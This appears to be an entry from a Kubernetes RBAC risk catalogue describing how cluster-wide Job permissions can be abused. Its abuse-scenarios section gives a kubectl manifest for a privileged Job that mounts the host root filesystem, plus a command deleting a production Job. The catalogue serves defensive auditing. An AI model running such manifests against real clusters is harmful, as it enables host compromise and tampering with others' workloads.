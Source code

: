 ```yaml
---
id: 1041
title: "Manage Jobs cluster-wide (one-off privileged execution)"
description: "Allows creating, updating, or deleting Jobs across all namespaces. Jobs create one or more pods for batch tasks. This can be used to run a one-off pod with privileged settings, leading to code execution, privilege escalation, and tampering."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field                   | Value                                                                                     |
| ----------------------- | ----------------------------------------------------------------------------------------- |
| ID                      | 1041                                                                                      |
| Name                    | Manage Jobs cluster-wide (one-off privileged execution)                                   |
| Risk Category           | Elevation of Privilege                                                                    |
| Risk Level              | {{< risk Critical >}}                                                                     |
| Role Type               | ClusterRole                                                                               |
| API Groups              | batch                                                                                     |
| Resources               | jobs                                                                                      |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete]                                                  |
| Tags                    | {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Allows creating, updating, or deleting Jobs across all namespaces. Jobs create one or more pods for batch tasks. This can be used to run a one-off pod with privileged settings, leading to code execution, privilege escalation, and tampering.

## Abuse Scenarios

1. Create a new Job that runs a privileged pod once.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: batch/v1
kind: Job
metadata:
  name: privileged-job
spec:
  template:
    spec:
      hostNetwork: true
      hostPID: true
      containers:
      - name: attacker
        image: busybox
        command: ["/bin/sh", "-c", "echo 'Job Pwned!' > /host/job_pwned.txt"]
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: host-root
      volumes:
      - name: host-root
        hostPath:
          path: /
      restartPolicy: OnFailure
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Delete a critical Job, preventing a one-off task from completing.

```bash
kubectl delete job <job-name> -n <namespace>
# Example: kubectl delete job db-migration-job -n production

```
